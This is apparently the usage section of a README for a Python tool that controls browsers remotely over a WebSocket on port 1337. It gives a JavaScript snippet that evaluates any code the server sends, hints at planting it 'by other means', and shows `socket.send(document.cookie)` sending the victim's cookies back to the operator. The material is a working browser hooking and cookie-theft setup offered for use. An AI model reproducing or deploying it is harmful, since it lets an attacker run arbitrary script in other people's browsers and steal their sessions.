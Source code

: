 ## Usage
If you run `python main.py`, then run in the CLI:

`>listen`

It will listen for connections. 
To connect a browser, run this in the console (or by other means? :) ):
```
var socket = new WebSocket('ws://localhost:1337', 'chat'); 
socket.onmessage = function (event) {
    eval(event.data);
}
```

Then, in the CLI:

`>control`

`>[the number label of the session you wish to control]`

Then you will be prompted to run any Javascript you want.
To send data back to the server, you can use `socket.send`. E.g.:

```
socket.send(document.cookie);
```
